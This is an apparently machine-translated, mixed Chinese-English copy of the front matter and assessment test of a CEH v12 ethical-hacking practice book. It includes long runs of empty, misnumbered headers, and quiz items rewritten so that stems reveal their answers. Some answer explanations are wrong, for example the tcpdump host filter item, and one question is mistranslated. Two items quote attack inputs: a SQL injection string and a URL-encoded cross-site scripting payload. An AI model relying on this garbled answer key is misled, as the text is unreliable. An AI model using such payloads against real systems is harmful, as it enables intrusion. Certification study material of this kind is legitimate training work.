# CEH v12 认证伦理黑客学习指南 750 个练习题（Sybex 学习指南）


## 121. 102

## 122. 103

## 123. 104

## 124. 105

## 125. 106

## 126. 107

## 127. 108

## 128. 109

## 129. 110

## 130. 111

## 131. 112

## 132. 113

## 133. 114

## 134. 115

## 135. 116

## 136. 117

## 137. 118

## 138. 119

## 139. 120

## 140. 121

## 141. 122

## 142. 123

## 143. 124

## 144. 125

## 145. 126

## 146. 127

## 147. 128

## 148. 129

## 149. 130

## 150. 131

## 151. 132

## 152. 133

## 153. 134

## 154. 135

## 156. 137

## 156. 138

## 158. 139

## 159. 140

## 160. 141

## 161. 142

## 162. 143

## 163. 144

## 164. 145

## 165. 146

## 166. 147

## 167. 148

## 168. 149

## 169. 150

## 170. 151

## 171. 152

## 172. 153

## 173. 154

## 174. 155

## 175. 156

## 176. 157

## 176. 158

## 177. 159

## 178. 160

## 179. 161

## 180. 162

## 181. 163

## 182. 164

## 183. 165

## 184. 166

## 185. 167

## 186. 168

## 187. 169

## 188. 170

## 189. 171

## 190. 172

## 191. 173

## 192. 174

## 193. 175

## 194. 176

## 195. 177

## 196. 178

## 197. 179

## 198. 180

## 199. 181

## 200. 182

## 201. 183

## 202. 184

## 203. 185

## 204. 186

## 205. 187

## 206. 188

## 207. 189

## 208. 190

## 209. 191

## 210. 192

## 211. 193

## 212. 194

## 213. 195

## 214. 196

## 215. 197

## 216. 198

## 217. 199

## 218. 200

## 219. 201

## 220. 202

## 221. 203

## 222. 204

## 223. 205

## 224. 206

## 225. 207

## 226. 208

## 227. 209

## 228. 210

## 229. 211

## 230. 212

## 231. 213

## 232. 214

## 233. 215

## 234. 216

## 235. 217

## 236. 218

## 237. 219

## 238. 220

## 239. 221

## 240. 222

## 241. 223

## 242. 224

## 243. 225

## 244. 226

## 245. 227

## 246. 228

## 247. 229

## 248. 231

## 249. 232

## 250. 233

## 251. 234

## 252. 235

## 253. 236

## 254. 237

## 255. 238

## 256. 239

## 257. 240

## 258. 241

## 259. 242

## 260. 243

## 261. 244

## 262. 245

## 263. 246

## 264. 247

## 265. 248

## 266. 249

## 267. 250

## 268. 251

## 269. 252

## 270. 253

## 271. 254

## 272. 255

## 273. 256

## 274. 257

## 275. 258

## 276. 259

## 277. 260

## 278. 261

## 279. 262

## 280. 263

## 281. 264

## 282. 265

## 283. 266

## 284. 267

## 285. 268

## 286. 269

## 287. 270

## 288. 271

## 289. 272

## 290. 273

## 291. 274

## 292. 275

## 293. 276

## 294. 277

## 295. 279

## 296. 280

## 297. 281

## 298. 282

## 299. 283

## 300. 284

## 301. 285

## 302. 286

## 303. 287

## 304. 288

## 305. 289

## 306. 290

## 307. 291

## 308. 292

## 309. 293

## 310. 294

## 311. 295

## 312. 296

## 313. 297

## 314. 298

## 315. 299

## 316. 300

## 317. 301

## 318. 302

## 319. 303

## 320. 304

## 321. 305

## 322. 306

## 323. 307

## 324. 308

## 325. 309

## 326. 310

## 327. 311

## 328. 312

## 329. 313

## 330. 314

## 331. 315

## 332. 316

## 333. 317

## 334. 318

## 335. 319

## 336. 320

## 337. 321

## 338. 322

## 339. 323

## 340. 324

## 341. 325

## 342. 326

## 343. 327

## 344. 328

## 345. 329

## 346. 330

## 347. 331

## 348. 332

## 349. 333

## 350. 334

## 351. 335

## 352. 336

## 353. 337

## 354. 339

## 355. 340

## 356. 341

## 357. 342

## 358. 343

## 359. 344

## 360. 345

## 361. 346

## 362. 347

## 363. 348

## 364. 349

## 365. 350

## 366. 351

## 367. 352

## 368. 353

## 369. 354

## 370. 355

## 371. 356

## 372. 357

## 373. 358

## 374. 359

## 375. 360

## 376. 361

## 377. 362

## 378. 363

## 379. 364

## 380. 365

## 381. 366

## 382. 367

## 383. 368

## 384. 369

## 385. 370

## 386. 371

## 387. 372

## 388. 373

## 389. 374

## 390. 375

## 391. 376

## 392. 377

## 393. 378

## 394. 379

## 395. 380

## 396. 381

## 397. 382

## 398. 383

## 399. 384

## 400. 385

## 401. 386

## 402. 387

## 403. 388

## 404. 389

## 405. 390

## 406. 391

## 407. 393

## 408. 394

## 409. 395

## 410. 396

## 411. 397

## 412. 398

## 413. 399

## 414. 400

## 415. 401

## 416. 402

## 417. 403

## 418. 404

## 419. 405

## 420. 406

## 421. 407

## 422. 408

## 423. 409

## 424. 410

## 425. 411

## 426. 412

## 427. 413

## 428. 414

## 429. 415

## 430. 416

## 431. 417

## 432. 418

## 433. 419

## 434. 420

## 435. 421

## 436. 422

## 437. 423

## 438. 424

## 439. 425

## 440. 426

## 441. 427

## 442. 428

## 443. 429

## 444. 430

## 445. 431

## 446. 432

## 447. 433

## 448. 434

## 449. 435

## 450. 436

## 451. 437

## 452. 438

## 453. 439

## 454. 440

## 455. 441

## 456. 442

## 457. 443

## 458. 444

## 459. 445

## 460. 446

## 461. 447

## 462. 448

## 463. 449

## 464. 450

## 465. 451

## 466. 452

## 467. 453

## 468. 454

## 469. 455

## 470. 456

## 471. 457

## 472. 458

## 473. 459

## 474. 460

## 475. 461

## 476. 462

## 477. 463

## 478. 464

## 479. 465

## 480. 466

## 481. 467

## 482. 468

## 483. 469

## 484. 470

## 485. 471

## 486. 472

## 487. 473

## 488. 474

## 489. 475

## 490. 476

## 491. 477

## 492. 478

## 493. 479

## 494. 480

## 495. 481

## 496. 482

## 497. 483

## 498. 484

## 499. 485

## 500. 486

## 501. 487

## 502. 488

## 503. 489

## 504. 490

## 505. 491

## 506. 492

## 507. 493

## 508. 494

## 509. 495

## 510. 496

## 511. 497

## 512. 498

## 513. 499

## 514. 500

## 515. 501

## 516. 502

## 517. 503

## 518. 504

## 519. 505

## 520. 506

## 521. 507

## 522. 508

## 523. 509

## 524. 511

## 525. 512

## 526. 513

## 527. 514

## 528. 515

## 529. 516

## 530. 517

## 531. 518

## 532. 519

## 533. 520

## 534. 521

## 535. 522

## 536. 523

## 537. 524

## 538. 525

## 539. 526

## 540. 527

## 541. 528

## 542. 529

## 543. 530

## 544. 531

## 545. 532

## 546. 533

## 547. 534

## 548. 535

## 549. 536

## 550. 537

## 551. 538

## 552. 539

## 553. 540

## 554. 541

## 555. 542

## 556. 543

## 557. 544

## 558. 545

## 559. 546

## 560. 547

## 561. 548

## 562. 549

## 563. 550

## 564. 551

## 565. 552

## 566. 553

## 567. 554

## 568. 555

## 569. 556

## 570. 557

## 571. 558

## 572. 559

## 573. 560

## 574. 561

## 575. 562

## 576. 563

## 577. 564

## 578. 565

## 579. 566

## 580. 567

## 581. 568

## 582. 569

## 583. 570

## 584. 571

## 585. 572

## 586. 573

## 587. 574

## 588. 575

## 589. 576

## 590. 577

## 591. 578

## 592. 579

## 593. 580

## 594. 581

## 595. 582

## 596. 583

## 597. 584

## 598. 585

## 599. 586

## 600. 587

## 601. 588

## 602. 589

## 603. 590

## 604. 591

## 605. 592

## 606. 593

## 607. 594

## 608. 595

## 609. 596

## 610. 597

## 611. 598

## 612. 599

## 613. 600

## 614. 601

## 615. 602

## 616. 603

## 617. 604

## 618. 605

## 619. 606

## 620. 607

## 621. 608

## 622. 609

## 623. 610

## 624. 611

## 625. 612

## 626. 613

## 627. 614

## 628. 615

## 629. 616

## 630. 617

## 631. 618

## 632. 619

## 633. 620

## 634. 621

## 635. 622

## 636. 623

## 637. 624

## 638. 625

## 639. 626

## 640. 627

## 641. 628

## 642. 629

## 643. 630

## 644. 631

## 645. 632

## 646. 633

## 647. 634

## 648. 635

## 649. 636

## 650. 637

## 651. 638

## 652. 639

## 653. 640

## 654. 641

## 655. 642

## 656. 643

## 657. 644

## 658. 645

## 659. 646

## 660. 647

## 661. 648

## 662. 649

## 663. 650

## 664. 651

## 665. 652

## 666. 653

## 667. 654

## 668. 655

## 669. 656

## 670. 657

## 671. 658

## 672. 659

## 673. 660

## 674. 661

## 675. 662

## 676. 663

## 677. 664

## 678. 665

## 679. 666

## 680. 667

## 681. 668

## 682. 669

## 683. 670

## 684. 671

## 685. 672

## 686. 673

## 687. 674

## 688. 675

## 689. 676

## 690. 677

## 691. 678

## 692. 679

## 693. 680

## 694. 681

## 695. 682

## 696. 683

## 697. 684

## 698. 685

## 699. 686

## 700. 687

## 701. 688

## 702. 689

## 703. 690

## 704. 691

## 705. 692

## 706. 693

## 707. 694

## 708. 695

## 708. 696

## 709. 697

## 710. 698

## 711. 699

## 712. 700

## 713. 701

## 714. 702

## 715. 703

## 716. 704

## 716. 705

## 717. 706

## 718. 707

## 719. 708

## 720. 709

## 721. 710

## 722. 711

## 723. 712

## 724. 713

## 725. 714

## 726. 715

## 727. 716


728. 717

729. 718

730. 719

731. 720

732. 721

733. 722

734. 723

735. 724

736. 725

737. 726

738. 727

Copyright © 2023 by John Wiley & Sons, Inc. All rights reserved.

Published by John Wiley & Sons, Inc., Hoboken, New Jersey.

Published simultaneously in Canada and the United Kingdom.

ISBN: 978-1-394-18692-1

ISBN: 978-1-394-18687-7 (ebk.)

ISBN: 978-1-394-18691-4 (ebk.)

No part of this publication may be reproduced, stored in a retrieval system, or transmitted in any form or by any means, electronic, mechanical, photocopying, recording, scanning, or otherwise, except as permitted under Section 107 or 108 of the 1976 United States Copyright Act, without either the prior written permission of the Publisher, or authorization through payment of the appropriate per‑copy fee to the Copyright Clearance Center, Inc., 222 Rosewood Drive, Danvers, MA 01923, (978) 750‑8400, fax (978) 750‑4470, or on the web at `www.copyright.com`. Requests to the Publisher for permission should be addressed to the Permissions Department, John Wiley & Sons, Inc., 111 River Street, Hoboken, NJ 07030, (201) 748‑6011, fax (201) 748‑6008, or online at `www.wiley.com/go/permission`.

**Trademarks:** `WILEY`, the `Wiley` logo, and the `Sybex` logo are trademarks or registered trademarks of John Wiley & Sons, Inc. and/or its affiliates, in the United States and other countries, and may not be used without written permission. `CEH` is a trademark of EC‑Council. All other trademarks are the property of their respective owners. John Wiley & Sons, Inc. is not associated with any product or vendor mentioned in this book.

**Limit of Liability/Disclaimer of Warranty:** While the publisher and author have used their best efforts in preparing this book, they make no representations or warranties with respect to the accuracy or completeness of the contents of this book and specifically disclaim any implied warranties of merchantability or fitness for a particular purpose. No warranty may be created or extended by sales representatives or written sales materials. The advice and strategies contained herein may not be suitable for your situation. You should consult with a professional where appropriate. Further, readers should be aware that websites listed in this work may have changed or disappeared between when this work was written and when it is read. Neither the publisher nor author shall be liable for any loss of profit or any other commercial damages, including but not limited to special, incidental, consequential, or other damages.

For general information on our other products and services or for technical support, please contact our Customer Care Department within the United States at (800) 762‑2974, outside the United States at (317) 572‑3993 or fax (317) 572‑4002.

Wiley also publishes its books in a variety of electronic formats. Some content that appears in print may not be available in electronic formats. For more information about Wiley products, visit our web site at `www.wiley.com`.

**Library of Congress Control Number:** 2023932588

Cover image: © Getty Images Inc./Jeremy Woodhouse

Cover design: Wiley

# About the Authors

**Ric Messier**, GCIH, CCSP, GSEC, CEH, CISSP, MS, has entirely too many letters after his name, as though he spends time gathering up strays that follow him home at the end of the day. His interest in information security began in high school but was cemented when he was a freshman at the University of Maine, Orono, when he took advantage of a vulnerability in a jailed environment to break out of the jail and gain elevated privileges on an IBM mainframe in the early 1980s. His first experience with Unix was in the mid‑1980s and with Linux in the mid‑1990s. Ric is an author, trainer, educator, and security professional with multiple decades of experience. He is currently a Principal Consultant with Mandiant and has developed graduate programs and courses in information security at different colleges and universities.

## About the Technical Editor

**James Michael Stewart**, CISSP, CEH, CHFI, ECSA, CND, ECIH, CySA+, PenTest+, CASP+, Security+, Network+, A+, CISM, and CFR, has been writing and training for more than 25 years, with a current focus on security. He has been teaching CISSP training courses since 2002, not to mention other courses on internet security and ethical hacking/penetration testing. He is the author of and contributor to more than 75 books on security certification, Microsoft topics, and network administration, including *CompTIA Security+ Review Guide*. More information about Michael can be found at his website, `www.impactonline.com`.

# Introduction

You're thinking about becoming a Certified Ethical Hacker (`CEH`). No matter what variation of security testing you are performing—ethical hacking, penetration testing, red teaming, or application assessment—the skills and knowledge necessary to achieve this certification are in demand. Even the idea of security testing and ethical hacking is evolving as businesses and organizations begin to have a better understanding of the adversaries they are facing. It's no longer the so‑called script kiddies that businesses felt they were fending off for so long. Today's adversary is organized, well‑funded, and determined. This means testing requires different tactics.

Depending on who you are listening to, 80–90 percent of attacks today use social engineering. The old technique of looking for technical vulnerabilities in network services is simply not how attackers are getting into networks. Networks that are focused on applying a defense‑in‑depth approach, hardening the outside, may end up being susceptible to attacks from the inside, which is what happens when desktop systems are compromised. The skills needed to identify vulnerabilities and recommend remediations are evolving, along with the tactics and techniques used by attackers.

This book is written to help you understand the breadth of content you will need to know to obtain the `CEH` certification. You will find a lot of concepts to provide you with a foundation that can be applied to the skills required for the certification. While you can read this book cover to cover, for a substantial chunk of the subjects, getting hands‑on experience is essential. The concepts are often demonstrated through the use of tools. Following along with these demonstrations and using the tools yourself will help you understand the tools and how to use them. Many of the demonstrations are done in Kali Linux, though many of the tools have Windows analogs if you are more comfortable there.

We can't get through this without talking about ethics, though you will find it mentioned in several places throughout the book. This is serious, and not only because it's a huge part of the basis for the certification. It's also essential for protecting yourself and the people you are working for. The short version is do not do anything that would cause damage to systems or your employer. There is much more to it than that, which you'll read more about in Chapter 1, “Ethical Hacking,” as a starting point. It's necessary to start wrapping your head around the ethics involved in this exam and profession. You will have to sign an agreement as part of achieving your certification.

在每个章节的末尾，您会发现一组问题。这将帮助您向自己证明您已理解所学内容。大多数问题都是选择题，这是 CEH 考试所使用的题目格式。结合您获得的实践经验，这些问题将为参加考试做好良好准备。

## 什么是 CEH？

认证伦理黑客（`CEH`）考试用于验证持有认证的人员是否具备成为有效伦理黑客所需的广泛知识领域。事实是，大多数天数，如果您留意新闻，您会看到一家公司因数据被盗而被入侵的新闻报道，或是政府遭受攻击，甚至是大规模的拒绝服务攻击，导致用户难以访问业务资源。

`CEH` 是一项认证，旨在体现识别安全问题并加以整改的重要性。这是公司防范攻击的一种方式——在攻击者之前发现并修复漏洞。这需要具备了解攻击者通常使用的技术的专业人员。仅靠自动化工具进行扫描是不够的，因为即使安全扫描仪相当出色，也会产生误报——即扫描仪错误地指示不存在的问题。此外，它们还会漏掉许多漏洞（即假阴性），原因有多种，包括漏洞或攻击本身可能尚未被知晓。

由于公司需要了解自身的攻击面，他们需要能够发现这些漏洞的人，而这往往非常复杂。扫描工具是一个良好的起点，但要在复杂网络中找到漏洞需要人类创造性的智慧。因此我们需要伦理黑客 —  — 能够运用广泛的技术知识来识别可被利用的漏洞的人。

“伦理”这两个字的关键意义在于，企业有保护措施，因为它们不希望其资源被窃取或损坏。当公司聘请一位寻找漏洞的专业人士时，必须确保不会有资源被窃取或损坏，同时确保任何被观察或审查的内容不被向他人泄露。尤其是在发现漏洞后，这一点尤为重要。


# CEH 考试概述

CEH 考试具有双重目的。它不仅考察深度技术知识，还将持有认证者约束在行为守则下。您不仅需要了解该守则的内容和期望，还必须在实际工作中遵守它。当公司招聘或委托持有 CEH 认证的人员时，他们可以确信已雇佣了一位 discretion（保密）且可靠的人，能够保护公司的秘密，并提供专业服务，帮助提升安全态势，保护重要资源。

## 主要知识领域

如果您参加 CEH v12 培训，将需要完成以下模块：

* 伦理黑客概述
* 足迹收集与侦察
* 网络扫描
* 端口枚举
* 漏洞分析
* 系统入侵
* 恶意软件威胁
* sniffing（数据包捕获）
* 社会工程学
* 拒绝服务攻击
* 会话劫持
* 规避 IDS、防火墙和蜜罐
* Web 服务器入侵
* Web 应用入侵
* SQL 注入
* 无线网络入侵
* 移动平台入侵
* IoT 与 OT（运营技术）入侵
* 云计算
* 加密学

如您所见，涉及的范围非常广泛。除了了解这些主题相关的概念外，您还需要熟悉在执行相关操作时可能使用的各种工具。您需要了解诸如 `nmap` 等用于端口扫描的工具。对于基于代理的 Web 应用攻击工具，也可能需要了解。在无线网络攻击方面，可能需要掌握 `aircrack-ng` 套件。每个列出的模块中，可能都有数十种可用的工具。

CEH 考试的知识领域非常技术化。这不是一个仅凭理论知识就能行之有效的领域。您必须已经使用过文中涵盖的方法和工具，并具备实际操作经验。您可能已经注意到，这些模块都对应于前文提到的不同阶段。虽然考试可能不会要求您针对特定方法进行回答，但考试内容大体上遵循 EC‑Council 所认可的标准方法论。

## 关于考试

CEH 考试的参数与其他专业认证考试相似。您将参加一场受监考的电脑考试，时长 4 小时，需回答 125 道选择题。这意味着平均每题约 2 分钟的作答时间。考试可通过 ECC Exam Center 或 Pearson VUE 中心进行。关于 VUE 的详细信息，请访问 `https://home.pearsonvue.com/eccouncil`。

如果您想进一步提升认证层次，可以报考 CEH 实战考试。该考试要求您实际进行渗透测试并撰写报告。这表明您不仅熟悉考试所覆盖的理论内容，还能将其应用于实际情境。您需要能够 compromising（入侵）系统并发现漏洞。

要通过考试，您需要正确回答一定数量的题目，实际通过门槛会随题目难度而变化。题目越难，您需要答对的题目数量越少即可通过；题目越易，则需要答对的题目数量越多。一些信息来源声称需要答对 70% 的题目才算及格，这仅供参考，作为粗略的低端指标。但请记住，实际考试时的及格比例会有所不同，您需要的及格分数范围在 60% 到 85% 之间。

好消息是，您在离开考场前即可得知是否通过。考试结束后会即时显示您的得分，并提供一份纸质文件，列明成绩细节。您还会收到各个评分区域的反馈，说明您在每个方面的表现。

## 适用人群

并非所有人都有资格参加 CEH 考试。在深入之前，请确认您的资格。作为起点，您必须年满 18 岁。其他资格标准如下：

* 持有 CEH 版本 1–7 的认证人员。虽然 CEH 认证已获得 ANSI 认证，但早期版本的考试在认证之前即已提供。持有早期 CEH 认证的人员可报考 ANSI 认证的 CEH 考试。
* 至少两年相关工作经验。具备此经验的人员需缴纳不可退还的 100 美元申请费。
* 已完成 EC‑Council 培训。

如果您满足上述资格标准，即可提交申请，并在适用的情况下缴纳费用（如果您参加了 EC‑Council 培训，费用已包含）。申请有效期为三个月。

## 考试费用

* [费城考试](https://www.example.org/pearson-vue-exam-voucher)的费用为 `$1,199`。你也可以获得 EC‑Council 的考试券，价格为 `$950`，但这需要你已参加 EC‑Council 培训并提供出席证明。

# About EC‑Council

The International Council of Electronic Commerce Consultants 通常被称为 EC‑Council (`www.eccouncil.org`)。它是在 2001 年 9 月 11 日美国遭受飞机袭击之后创建的。创始人 Jay Bavisi 想象如果攻击者把攻击方式从物理世界转移到数字世界会发生什么。除了这些特定的攻击者之外，互联网已成为大量想要造成破坏或窃取信息的人的活动场所。互联网的低成本进入门槛鼓励犯罪分子将其用于窃取信息、勒索数据或其他恶意行为。

EC‑Council 被认为是全球最大的认证机构之一。它在 145 个国家运营，已认证超过 200,000 人。除了 CEH，EC‑Council 还管理多个与 IT 相关的认证：

* Certified Network Defender (CND)
* Certified Ethical Hacker Practical
* EC‑Council Certified Security Analyst (ECSA)
* EC‑Council Certified Security Analyst Practical
* Licensed Penetration Tester (LPT)
* Computer Hacking Forensic Investigator (CHFI)
* Certified Chief Information Security Officer (CCISO)

持有 EC‑Council 认证的一个优势是该组织已获得美国国家标准化协会 (ANSI) 的认证。此外，也许更为重要，EC‑Council 的认证在全球得到认可，并得到像国家安全局 (NSA) 等政府机构的支持。国防部指令 8570 包含 CEH 认证。这很重要，因为拥有 CEH 认证意味着你可以快速获得美国政府若干职位的资格。

CEH 认证设立了一个标准，即有明确的已知标准集合。要获得认证，你必须满足至少最低标准。这些标准可以持续依赖。因此，拥有 CEH 认证的人可以被信任，他们已经证明自己达到了已知且被接受的知识和职业行为标准。

# Using This Book

本书的结构是将基础材料放在前面。通过这种方式，你可以按章节有序地阅读全书。技术书籍有时会枯燥且难以阅读，但我的目标始终是让它们易读且富有乐趣。如果你已经拥有大量经验，不必从头到尾直接阅读。你可以根据需要跳转阅读。没有任何章节依赖于其他章节，它们在内容上相互独立。然而，如果你缺乏基础却跳到后面的章节，可能会感到迷茫或困惑。只需回到相应的基础章节即可。

在基础材料之外，本书大致遵循安全测试的标准方法论。该方法论将在 Chapter 1 中进一步说明。因此，你可以按照渗透测试/伦理黑客攻击的步骤进行操作。了解方法论的大纲和原因也会对你有帮助。不过，如果你已经熟悉材料，也可以随意跳转。

## Additional Study Tools

本书配有在线学习环境，提供多种额外元素。以下项目在伴随文件中可供使用：

* **Practice tests** 本书的所有问题均在专有的数字测试引擎中提供，包括本介绍末尾的 30 道评估题以及每章末尾的 100+ 题复习题。此外，还有四份额外考试，每份 125 题。
* **Electronic “flashcards”** 数字伴随文件中包含超过 100 条闪卡格式的题目（一个问题后跟一个正确答案）。你可以使用这些闪卡复习考试目标。
* **Glossary** 本书的关键术语及其定义以可完全搜索的 PDF 形式提供。

## Objective Map

Table 1.1 显示了在书中何处可以找到每个目标的概览。虽然所有目标都有对应的章节，但有些目标分布在全书的多个章节中。具体来说，工具、系统和程序在大多数章节中至少会被提及。

**TABLE 1.1 Objective Map**

| Objective | Chapter |
| --- | --- |
| **Tasks** | |
| 1.1 Systems development and management | 7, 14 |
| 1.2 Systems analysis and audits | 4, 5, 6, 7 |
| 1.3 Security testing and vulnerabilities | 7, 8 |
| 1.4 Reporting | 1, 7 |
| 1.5 Mitigation | 7, 8 |
| 1.6 Ethics | 1 |
| **Knowledge** | |
| 2.1 Background | 2, 3 |
| 2.2 Analysis/assessment | 2, 11 |
| 2.3 Security | 3, 13, 14 |
| 2.4 Tools, systems, programs | 4, 5, 6, 7 |
| 2.5 Procedures/methodology | 1, 4, 5, 6, 7, 14 |
| 2.6 Regulation/policy | 1, 14 |
| 2.7 Ethics | 1 |

# Let's Get Started!

本书的结构是先带你学习基础概念，再逐步介绍伦理黑客攻击的通用方法论。你可以自行选择阅读路径。记住，尽可能动手实践。尝试使用工具、战术和程序，尤其是那些你不太熟悉的，这将对你帮助很大。

完成自评测。它可能帮助你更好地了解如何高效使用本书。

# How to Contact the Publisher

如果你发现本书有错误，请联系我们。在 John Wiley & Sons，我们认识到提供准确内容的重要性，尽管我们尽力而为，错误仍可能发生。

若要提交可能的 errata，请将电子邮件发送至客服团队 `wileysupport@wiley.com`，主题行写为 “Possible Book Errata Submission”。

# Assessment Test

1. 哪个字段用于重新组装碎片化的 IP 包？

   1. 目的地址
   2. IP 标识
   3. 不分片位
   4. ToS 字段

2. 如果在数据包捕获中看到下面内容，你会预期发生什么？

   ```
   ' or 1=1;
   ```

   1. 跨站脚本
   2. 命令注入
   3. SQL 注入
   4. XML 外部实体注入

3. 哪种方法可能让你成功将恶意软件安装到移动设备上？

   1. 通过 Apple Store 或 Google Play Store
   2. Android 外部存储
   3. 第三方应用商店
   4. 越狱

4. 哪种协议用于将目的 IP 地址映射到本地网络上的目的地址并发送数据包？

   1. DHCP
   2. [ARP]的缩写是 `Address Resolution Protocol`，它用于在本地网络中将 `IP 地址` 映射到 `MAC 地址`。
   3. [DNS]的缩写是 `Domain Name System`，它负责在因特网上将 `域名` 转换为 `IP 地址`。
   4. [RARP]的缩写是 `Reverse Address Resolution Protocol`，它用于将 `MAC 地址` 解析为 `IP 地址`。

5. 将包含 `AAAAAAAAAAAAAAAA`（共 16 个字符）的字符串写入只分配了 `8 字节` 内存空间会导致 `缓冲区溢出（Buffer overflow）`，因为数据超出了分配的存储空间，可能覆盖相邻的内存。

   1. [Heap spraying]是一种通过大量分配内存来填充堆区的技术，常用于绕过防护机制。
   2. [SQL injection]是通过在输入中注入恶意的 SQL 语句，以此操控数据库后端的攻击手段。
   3. [Buffer overflow]是指向量超出其预期的长度，导致内存被破坏或执行任意代码的漏洞。
   4. [Slowloris attack]是一种通过长时间打开少量连接，占用服务器资源从而导致服务不可用的拒绝服务攻击。

6. 子网掩码 `255.255.248.0` 对应的 CIDR 前缀是 `/21`。

   1. [/23]是错误的，因为它只覆盖了 23 位，掩码长度不匹配。
   2. [/22]是错误的，掩码长度为 22 位，范围不匹配。
   3. [/21]是正确的，掩码长度为 21 位，正好对应 255.255.248.0。
   4. [/20]是错误的，掩码长度为 20 位，范围不匹配。

7. 蠕虫（worm）与病毒（virus）的主要区别在于 `蠕虫可以自行传播`，而病毒通常需要宿主文件或程序作为载体。

   1. [A worm uses polymorphic code]是错误的，蠕虫不一定使用多态代码。
   2. [A virus uses polymorphic code]是错误的，虽然病毒可能使用多态代码，但这并不是两者的根本区别。
   3. [A worm can self‑propagate]是正确的，蠕虫能够自行在网络中传播。
   4. [A virus can self‑propagate]是错误的，病毒需要借助其他程序或文件传播。

8. 计算风险的常用公式是 `Probability × Loss`（即概率乘以潜在损失）。

   1. [Probability * loss]是正确的。
   2. [Probability * mitigation factor]是错误的，因为它引入了缓解因子，而不是直接的损失。
   3. [(Loss + mitigation factor) * (loss/probability)]是错误的，公式不合逻辑。
   4. [Loss * mitigation factor]是错误的，缺少概率因子。

9. 恶意双子（evil twin）攻击的工作方式是 `冒充合法的无线接入点（AP）`，诱骗用户连接到攻击者控制的 AP，从而可以拦截或篡改流量。

   1. [Phishing users for credentials]是错误的，这是钓鱼攻击，不是双子攻击。
   2. [Spoofing an SSID]是正确的，攻击者伪装 AP 的 SSID 以误导用户。
   3. [Changing an SSID]是错误的，单纯更改 SSID 并不能实现双子攻击。
   4. [Injecting four‑way handshakes]是错误的，这与攻击的核心机制无关。

10. 在端点之前、网络层面清除恶意软件的常用手段是 `统一威胁管理（Unified threat management）设备`。

    1. [Antivirus]是错误的，它主要在终端层面工作。
    2. [Application layer gateway]是错误的，它主要处理应用层流量，而非网络层恶意软件清除。
    3. [Unified threat management appliance]是正确的，它集成了防火墙、入侵防御等功能，可在网络层面阻断恶意软件。
    4. [Stateful firewall]是错误的，它只能基于连接状态过滤流量，无法主动清除恶意软件。

11. 安全策略的主要目的是 `为安全提供高层次的指导`，帮助组织制定整体的安全方针和原则。

    1. [Providing high‑level guidance on the role of security]是正确的。
    2. [Providing specific direction to security workers]是错误的，这是详细操作指南，而非策略的主要目的。
    3. [Increasing the bottom line of a company]是错误的，安全策略的核心不是财务增长。
    4. [Aligning standards and practices]是错误的，虽然对齐很重要，但不是策略的首要目的。

12. 给定的字符串 `%3Cscript%3Ealert('wubble');%3C/script%3E` 是 `URL 编码`（percent‑encoding）后的形式，其中 `%3C` 代表 `<`，`%3E` 代表 `>`，`%3E` 后面的部分是被编码的脚本代码。

    1. [Base64 encoding]是错误的，Base64 使用 64 个字符的字母数字和符号集合。
    2. [URL encoding]是正确的，这是典型的百分比编码形式。
    3. [Encryption]是错误的，加密会产生不可读的二进制或 Base64 形式，而非 `%` 形式。
    4. [Cryptographic hashing]是错误的，哈希值是固定长度的二进制或十六进制字符串，不会出现 `%` 编码。

13. 运行 `dig ns domain.com` 会查询 `域名系统（DNS）名称服务器（NS）记录`，返回该域名的 `名称服务器（Name server）记录`。

    1. [Mail exchanger records for domain.com]是错误的，那是 MX 记录。
    2. [Name server records for domain.com]是正确的，dig ns 会返回 NS 记录。
    3. [Caching name server for domain.com]是错误的，dig 本身不返回缓存信息。
    4. [IP address for the hostname ns]是错误的，dig ns 返回的是域名对应的名称服务器，而不是 IP。

14. 理想情况下用于获取域名所有主机名的技术是 `区域传输（Zone transfer）`，即从主 DNS 服务器将整个区域的记录复制到从属服务器。

    1. [DNS query]是错误的，普通查询只能获取单个主机名。
    2. [Zone copy]是错误的，这通常指手动复制区域文件，而不是自动传输。


### 3. Zone transfer
[Zone transfer]是正确的，它允许获取完整的区域记录。

### 4. Recursive request
[Recursive request]是错误的，普通递归查询只返回域名对应的记录，而非全部主机名。

### 15. 隧道攻击
在数据包捕获中看到 `操作系统命令` 包含在 DNS 查询中，最可能的情况是 `隧道攻击（Tunneling attack）`，攻击者将非 DNS 的二进制数据封装在 DNS 报文中进行传输。

1. [Tunneling attack]是正确的。
2. [DNS amplification]是错误的，它是指利用 DNS 服务器放大流量的攻击。
3. [DNS recursion]是错误的，它是 DNS 服务器内部的查询机制。
4. [XML entity injection]是错误的，它针对 XML 解析器，与 DNS 无关。

### 16. Ping sweep 目的
运行 `ping sweep`（ICMP echo sweep）的目的是 `在不进行端口扫描的情况下识别哪些主机是响应的`。

1. [You want to identify responsive hosts without a port scan]是正确的。
2. [You want to use something that is light on network traffic]是错误的，ping sweep 本身会产生大量 ICMP 包。
3. [You want to use a protocol that may be allowed through the firewall]是错误的，ICMP 通常被防火墙阻断或受限。
4. [All of the above]是错误的，因为只有第一项是正确的。

### 17. NIST 网络安全框架
根据 NIST 网络安全框架（NIST Cybersecurity Framework），其核心功能（Framework Functions）包括 `Identify`、`Protect`、`Detect`、`Respond`、`Recover`，共 `5` 个功能。

1. [0]是错误的。
2. [3]是错误的。
3. [5]是正确的。
4. [4]是错误的。

### 18. 不写恶意软件的原因
不写恶意软件的一个原因是 `Python 解释器可能不存在于目标系统上`。

1. [The Python interpreter is slow]是错误的，Python 解释器的性能不是主要考虑因素。
2. [The Python interpreter may not be available]是正确的。
3. [There is inadequate library support]是错误的，Python 拥有丰富的第三方库。
4. [Python is a hard language to learn]是错误的，Python 以易学著称。

### 19. tcpdump 命令
命令 `tcpdump -i eth2 host 192.168.10.5` 捕获的是 `仅来自 192.168.10.5 的流量`（即源地址为该 IP 的包）。

1. [Traffic just from 192.168.10.5]是正确的。
2. [Traffic to and from 192.168.10.5]是错误的，因为只限定了源地址。
3. [Traffic just to 192.168.10.5]是错误的，因为只限定了目的地址。
4. [All traffic other than from 192.168.10.5]是错误的，与捕获条件相反。

### 20. Diffie-Hellman 协议
Diffie‑Hellman 协议主要用于 `密钥交换（Key exchange）`，使两方安全地协商共享密钥。

1. [Key management]是错误的，它涉及密钥的生成、分发、存储和撤销，而非交换。
2. [Key isolation]是错误的，与密钥交换无关。
3. [Key exchange]是正确的。
4. [Key revocation]是错误的，撤销是后续管理步骤。

### 21. 社会工程学权威原则
社会工程学中的 `权威（Authority）` 原则可以让假扮帮助台的电话更容易被接受。

1. [Social proof]是错误的，它基于他人行为的认可。
2. [Imitation]是错误的，它强调模仿而非权威。
3. [Scarcity]是错误的，它基于稀缺性。
4. [Authority]是正确的。

